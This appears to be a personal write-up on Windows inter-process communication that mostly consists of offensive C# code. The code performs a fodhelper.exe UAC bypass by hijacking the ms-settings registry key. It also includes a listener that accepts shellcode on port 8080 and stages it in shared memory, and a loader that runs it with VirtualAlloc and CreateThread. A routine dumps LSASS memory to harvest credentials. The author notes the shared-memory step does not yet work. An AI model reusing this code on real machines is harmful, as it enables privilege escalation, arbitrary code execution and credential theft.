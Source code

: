 # IPC via Memory Mapping and pipes

## What are pipes?

So there are 2 process with which you want to communicate with. For instance where you just want to send some stuff to another process pipes would be helpful. There are 2 kind of pipes. First one being anonymous pipes which can perform IPC on local machine and second one being named pipes for performing IPC over network. But since I was not able to find a way to execute stuff which making it visible to another process, I decided to look for something else!

## Shared Memory

Windows offer another way for IPC called shared memory files which seems a perfect choice for my problem statement. I can just create a shared memory region, pass my shellcode over that region and then use the elevated process to execute the shellcode.This seems easy, but after trying for 2-3 hrs I am not able to make the elevated process have access to shared memory region. So I am currently looking into access rights of shared memeory and maybe modifying those will let elevated process access it?


In case you are curious here is the code I am currently dealing with

- The below code is the main code which would do stuff and open port 8080 and once you send shellcode over 8080, it would create shared memory and write the shellcode on that.
```c#
using System;
using System.Management;
using System.IO;
using System.IO.Pipes;
using System.Diagnostics;
using System.Net.Sockets;
using System.Net;   
using System.Runtime.InteropServices;
using Microsoft.Win32;
using System.IO.MemoryMappedFiles;

class Program
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, UInt64 dwSize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr OpenProcess(UInt64 dwDesiredAccess, bool bInheritHandle, UInt64 dwProcessId);

    [DllImport("dbghelp")]
    private static extern bool MiniDumpWriteDump(IntPtr hProcess, UInt64 ProcessId, SafeHandle hFile, UInt64 dumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    private static UInt64 DELTE = 0x10000;
    private static UInt64 READ_CONTROL = 0x20000;
    private static UInt64 WRITE_DAC = 0x40000;
    private static UInt64 WRITE_OWNER = 0x80000;
    private static UInt64 SYNCHRONIZE = 0x1000000;
    private static UInt64 END = 0xFFF;
    private static UInt64 PROCESS_ALL_ACCESS = (DELTE | READ_CONTROL | WRITE_DAC | WRITE_OWNER | SYNCHRONIZE | END);

    //Perform UAC bypass using fodhelper
    static void ByPassUAC(string command)
    {
        //UAC Bypass using fodhelper.exe
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / v DelegateExecute / t REG_SZ
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / d "cmd.exe" / f

        RegistryKey myKey = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command");
        if (myKey == null)
        {
            RegistryKey tmpKey = Registry.CurrentUser.CreateSubKey(@"Software\\Classes\\ms-settings\\shell\\open\\command");
            tmpKey.Close();
        }
        myKey.Close();
        RegistryKey Key = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command",true);
        Key.SetValue("DelegateExecute", "REG_SZ");
        Key.SetValue("", command);
        return;
    }

    //Start a fodhelper.exe process
    static Process ActivateProcess(string name)
    {
        Process p = new Process();
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.FileName = name;
        p.Start();
        return p;
    }

    static void ExecuteInProcess(Process client)
    {
        using(AnonymousPipeServerStream pipeServer = new AnonymousPipeServerStream(PipeDirection.Out, HandleInheritability.Inheritable))
        {
            client.StartInfo.Arguments = pipeServer.GetClientHandleAsString();
            client.StartInfo.UseShellExecute = false;
            
            client.Start();

            pipeServer.DisposeLocalCopyOfClientHandle();
        }
    }

    static void ReverShell(MemoryMappedFile mmf)
    {
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

        // Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

        //Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        MemoryMappedViewStream stream = mmf.CreateViewStream(0,shellcode.Length-1);
        stream.Seek(0, SeekOrigin.Begin);
        stream.WriteByte(Convert.ToByte(shellcode.Length - 1));
        stream.Seek(1, SeekOrigin.Begin);
        stream.Write(shellcode, 0, shellcode.Length-1);
        while (true) ;
    }

    //Return the process id the process spawned by running fodhelper.exe i.e the cmd.exe running with elevated privs.
    // Refer : https://stackoverflow.com/questions/17922725/monitor-child-processes-of-a-process
    static IntPtr GetChildProcess(Process parentProcess)
    {
        int i = 0;
        ManagementObjectSearcher mo = new ManagementObjectSearcher(String.Format("Select * from Win32_Process Where ParentProcessID={0}", parentProcess.Id));
        foreach(ManagementObject m in mo.Get()){
            i = Convert.ToInt32(m["ProcessID"]);
        }
        if (i == 0)
        {
            System.Console.WriteLine("[!] Error getting the child process handle");
            return IntPtr.Zero;
        }
        else
        {
            IntPtr child = OpenProcess(PROCESS_ALL_ACCESS, false, (UInt64)i);
            return child;
        }
    }

    static void WriteMem(Process p)
    {
        FileStream fs = new FileStream("lsass.dat", FileMode.Create);

        bool status = MiniDumpWriteDump(p.Handle, (UInt64)p.Id, fs.SafeFileHandle, (UInt64)2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        if (status)
        {
            System.Console.WriteLine("Done!");
            fs.Close();
            System.Console.ReadLine();
        }
        else
        {
            System.Console.WriteLine("[!] Error dumping the process");
        }
        return;
    }

    static void Main(string[] args)
    {
        MemoryMappedFile mmf = MemoryMappedFile.CreateNew("shellcode", 500,MemoryMappedFileAccess.ReadWrite);
        ReverShell(mmf);
        MemoryMappedFileSecurity sec = mmf.GetAccessControl();
        ByPassUAC("C:\\Users\\root\\source\\repos\\Execute\\Execute\\bin\\x64\\Debug\\Execute.exe");
        Process p = ActivateProcess("C:\\Windows\\System32\\fodhelper.exe");
        IntPtr child_handle = GetChildProcess(p);
        Console.ReadLine();
//        WriteMem(p);
    }
}
```

- Below is code for the Execute.exe which would take the mapped memeory and execute stuff from that. Sadly, somehow it is not able to access the mapped memory.
Code:
```c#
using System;
using System.IO.MemoryMappedFiles;
using System.Runtime.InteropServices;

class Program
{

    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(UInt64 lpAddress, UInt64 dWsize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt64 lpThreadAttributes, UInt64 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt64 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt64 dwMilliSeconds);

    private static UInt64 MEM_COMMIT = 0x1000;
    private static UInt64 PAGE_EXECUTE_READWRITE = 0x40;

    public static void ExecuteShellcode(byte[] shellcode)
    {
        IntPtr address = VirtualAlloc(0, (UInt64)(shellcode.Length - 1), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length - 1);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);

    }
    static void Main(string[] args)
    {

        MemoryMappedFile mmf = MemoryMappedFile.OpenExisting("shellcode");
        MemoryMappedViewAccessor accessor = mmf.CreateViewAccessor();

        int length = accessor.ReadByte(1);
        byte[] shellcode = new byte[length];

        MemoryMappedViewStream stream = mmf.CreateViewStream(0, length);
        stream.Read(shellcode, 0, length);

        ExecuteShellcode(shellcode);
    }
}
```
